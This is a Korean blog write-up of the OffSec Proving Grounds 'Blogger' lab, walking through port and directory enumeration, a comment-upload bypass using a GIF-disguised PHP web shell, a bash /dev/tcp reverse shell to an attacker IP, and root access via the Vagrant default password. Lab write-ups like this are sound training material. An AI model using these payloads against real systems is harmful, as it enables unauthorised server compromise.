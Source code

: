 ```yaml
---
title: "Blogger Writeup"
date: 2025-09-03T00:00:00+09:00
# weight: 1
# aliases: ["/first"]
tags: ["pen-testing", "hacking"]
author: "Me"
categories: ["Penetration Testing"]
# author: ["Me", "You"] # multiple authors

showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "Offsec PGP lab Blogger Writeup"
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "posts/blogger-writeup/cover.jpg" # image path/url
    alt: "cover-image"

editPost:
    URL: "https://github.com/hynseok/blog/blob/main/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Enumeration
### Nmap
command
``` shell
sudo nmap -p- target
```

result
```
Nmap scan report for target (192.168.138.217)
Host is up (0.099s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
165/tcp   filtered xns-courier
3419/tcp  filtered softaudit
4852/tcp  filtered unknown
6717/tcp  filtered unknown
7811/tcp  filtered unknown
13716/tcp filtered netbackup
17741/tcp filtered unknown
26603/tcp filtered unknown
27064/tcp filtered unknown
28007/tcp filtered unknown
31615/tcp filtered unknown
32895/tcp filtered unknown
35304/tcp filtered unknown
37064/tcp filtered unknown
42017/tcp filtered unknown
42225/tcp filtered unknown
44837/tcp filtered unknown
52074/tcp filtered unknown
56306/tcp filtered unknown
59791/tcp filtered unknown
61590/tcp filtered unknown
```

### Gobuster

command
```shell
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```

result
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 271]
/.hta                 (Status: 403) [Size: 271]
/.htaccess            (Status: 403) [Size: 271]
/assets               (Status: 301) [Size: 301] [--> http://target/assets/]
/css                  (Status: 301) [Size: 298] [--> http://target/css/]
/images               (Status: 301) [Size: 301] [--> http://target/images/]
/index.html           (Status: 200) [Size: 46199]
/js                   (Status: 301) [Size: 297] [--> http://target/js/]
/server-status        (Status: 403) [Size: 271]
===============================================================
Finished
===============================================================
```
* assets 디렉토리가 공개되어 있습니다.
![alt text](images/blogger/blogger-img1.png)
* blog 경로에서 블로그 페이지로의 접근이 가능했습니다.

``` shell
# /etc/hosts

# Target Boxes
192.168.138.217 blogger.pg
```
* 페이지들에서 절대경로로 위 주소가 지정되어 있기에 편의를 위해 `hosts`파일을 수정합니다.

## Exploitation

* 블로그 내의 댓글 기능에서 파일을 업로드할 수 있습니다.
``` 
GIF89a;
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```
* Burp를 통해 파일을 위 페이로드로 변조하여 업로드합니다.

```
http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/09/a.gif-1756801043.6129.php?cmd={command}
```
* 위 url을 통해서 커맨드를 실행할 수 있습니다.

```shell
nc -nvlp 4444
```
```
http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/09/a.gif-1756801043.6129.php?cmd=bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F192.168.45.214%2F4444%200>%261%27

# url encoded된 명령어의 원본
bash -c 'bash -i >& /dev/tcp/192.168.45.214/4444 0>&1'
```
* netcat을 통해 reverse shell을 얻어냅니다.

```
/usr/bin/script -qc /bin/bash /dev/null
```
* reverse shell을 처음 얻어낸 상태에서는 shell세션이 없기 때문에 위 커맨드를 입력하여 새로운 bash 세션을 얻어냅니다.


## Privilege Escalation
### vagrant default password
- Vagrant는 가상화 소프트웨어(virtual box등)를 조작하기 위한 오픈소스 소프트웨어로 가상환경 내에서 유저를 가집니다.
- Vagrant의 default password는 `vagrant`입니다. 해당 유저로 로그인한 후 root권한을 얻어낼 수 있습니다.

``` shell
su vagrant
Password: vagrant

```
```shell
sudo su
```


### etc
linpeas
```
https://raw.githubusercontent.com/BRU1S3R/linpeas.sh/refs/heads/main/linpeas.sh
```
